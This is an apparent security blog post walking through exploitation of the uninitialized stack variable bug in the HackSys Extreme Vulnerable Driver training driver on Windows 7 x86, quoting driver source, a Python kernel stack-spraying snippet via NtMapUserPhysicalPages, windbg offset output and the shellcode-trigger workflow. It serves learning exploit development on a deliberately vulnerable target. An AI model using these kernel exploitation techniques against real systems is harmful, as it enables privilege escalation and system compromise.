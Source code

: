 ```yaml
---
layout: post
title:  "Windows Kernel Exploitation: Uninitialized Stack Variable"
date:   2018-08-16 07:00:00
categories: windows-kernel-exploit
permalink: /archivers/Windows-Kernel-Exploitation-Uninitialized-Stack-Variable
---
```

## Overview
There is no end for learning.

In this post, I learned how to exploit the uninitialized stack variable. Especially, how to spraying in stack is interesting.

### Environment
* Debugger OS: Win7 x64
* Debuggee OS: Win7 x86
* Debug software: Windbg, IDA

## Analysis
First check the [source code](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/master/Driver/UninitializedStackVariable.c).
```C
#ifdef SECURE
    // Secure Note: This is secure because the developer is properly initializing
    // UNINITIALIZED_STACK_VARIABLE to NULL and checks for NULL pointer before calling
    // the callback
    UNINITIALIZED_STACK_VARIABLE UninitializedStackVariable = {0};
#else
    // Vulnerability Note: This is a vanilla Uninitialized Stack Variable vulnerability
    // because the developer is not initializing 'UNINITIALIZED_STACK_VARIABLE' structure
    // before calling the callback when 'MagicValue' does not match 'UserValue'
    UNINITIALIZED_STACK_VARIABLE UninitializedStackVariable;
#endif

    PAGED_CODE();

    __try {
        // Verify if the buffer resides in user mode
        ProbeForRead(UserBuffer,
                     sizeof(UNINITIALIZED_STACK_VARIABLE),
                     (ULONG)__alignof(UNINITIALIZED_STACK_VARIABLE));

        // Get the value from user mode
        UserValue = *(PULONG)UserBuffer;

        DbgPrint("[+] UserValue: 0x%p\n", UserValue);
        DbgPrint("[+] UninitializedStackVariable Address: 0x%p\n", &UninitializedStackVariable);

        // Validate the magic value
        if (UserValue == MagicValue) {
            UninitializedStackVariable.Value = UserValue;
            UninitializedStackVariable.Callback = &UninitializedStackVariableObjectCallback;
        }

        DbgPrint("[+] UninitializedStackVariable.Value: 0x%p\n", UninitializedStackVariable.Value);
        DbgPrint("[+] UninitializedStackVariable.Callback: 0x%p\n", UninitializedStackVariable.Callback);

#ifndef SECURE
        DbgPrint("[+] Triggering Uninitialized Stack Variable Vulnerability\n");
#endif

        // Call the callback function
        if (UninitializedStackVariable.Callback) {
            UninitializedStackVariable.Callback();
        }
    }
```
As we can see in the source code, everything is clearly explained in the source. The stack value is not initialized in the unsecure version. The `UserValue` is compared with the magic value and if it fails the `callback` call is still called which caused unexpected execution, this is the vuln.

## Explotation
The vuln is very simple, but how to exploit for this vuln? The most important thing is that how to control the value before the call.  
### Kernel Stack-Spraying Techniques
[J00ru](https://j00ru.vexillium.org/2011/05/windows-kernel-stack-spraying-techniques/)writes a post that proposed a tech to figure the porblem. The tech is amazing just like maigc happening.

There is an undocumented function, NtMapUserPhysicalPages. It's a function that copies input bytes into a local buffer on the kernel stack. Below is the part of source of this code.
```C
//
// This local stack size definition is deliberately large as ISVs have told
// us they expect to typically do up to this amount.
//
 
#define COPY_STACK_SIZE             1024
(...)
NTSTATUS
 NtMapUserPhysicalPages (
   __in PVOID VirtualAddress,
   __in ULONG_PTR NumberOfPages,
   __in_ecount_opt(NumberOfPages) PULONG_PTR UserPfnArray
 )
(...)
  ULONG_PTR StackArray[COPY_STACK_SIZE];
(...)
PoolArea = (PVOID)&StackArray[0];
 
(...)
 
  if (NumberOfPages > COPY_STACK_SIZE) {
    PoolArea = ExAllocatePoolWithTag (NonPagedPool,
                                      NumberOfBytes,
                                      'wRmM');
 
    if (PoolArea == NULL) {
      return STATUS_INSUFFICIENT_RESOURCES;
    }
  }
 
(...)
 
  Status = MiCaptureUlongPtrArray (PoolArea,
                                   UserPfnArray,
                                   NumberOfPages);
```
As shown, the syscall handler allocates a local buffer of 1024 items, each sized sizeof(ULONG_PTR) = 4 on the considered Intel x86 platform. It also allows the user to pass larger amounts of data, but as much as 4096 user-supplied bytes (exactly one memory page) can be locally stored by the function. So we can control at most 4096 bytes in kernel stack. 

The code is just like below:
```PYTHON
def Stack_filling(shellcode_address):
    
    NtMapUserPhysicalPages(None, 1024,struct.pack('<I',shellcode_address)*1024)
```

### How to use this tech
Right now what we need to know is that does it enough for this stack variable or not.

We find the kernel stack init address, run the `!thread` command in windbg, and then subtract the callback address from the stack init address to find the offset.
```C
kd> !thread
THREAD 8513c3e0  Cid 02d0.06dc  Teb: 7ffdf000 Win32Thread: fe7ffb50 RUNNING on processor 0
IRP List:
    84fda570: (0006,0094) Flags: 00060000  Mdl: 00000000
Not impersonating
DeviceMap                 974c3bd8
Owning Process            8513c6c8       Image:         pythonw.exe
Attached Process          N/A            Image:         N/A
Wait Start TickCount      99024          Ticks: 0
Context Switch Count      57             IdealProcessor: 0             
UserTime                  00:00:00.062
KernelTime                00:00:00.046
Win32 Start Address 0x1c1a13a4
Stack Init 973dcfd0 Current 973dc738 Base 973dd000 Limit 973da000 Call 00000000
Priority 8 BasePriority 8 PriorityDecrement 0 IoPriority 2 PagePriority 5
...
kd> ?973dcfd0 -973dcacc
Evaluate expression: 1284 = 00000504
```
As we can see that the offset is just 0x504. It is apparently enough.

So the exploit work-flow will be as follows: 

1. put our shellcode in memory somewhere.
2. spray the kernel stack with pointers to our shellcode.
3. trigger the uninitialized variable vulnerability.


### Code
The full exp code is in my [Github](https://github.com/ray-cp/windows-kernel-exploit/tree/master/HEVD/Uninitialized_Stack_Variable/Win7_x86)
## Conclude
So much things need to learn and thanks for researchers' sharing.
## Link
1. [HackSys Extreme Vulnerable Driver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)
2. [Windows Kernel Exploitation Tutorial Part 6: Uninitialized Stack Variable)](https://rootkits.xyz/blog/2018/01/kernel-uninitialized-stack-variable/)
3. [nt!NtMapUserPhysicalPages and Kernel Stack-Spraying Techniques](https://j00ru.vexillium.org/2011/05/windows-kernel-stack-spraying-techniques/)
4. [Part 13: Kernel Exploitation -> Uninitialized Stack Variable](https://www.fuzzysecurity.com/tutorials/expDev/17.html)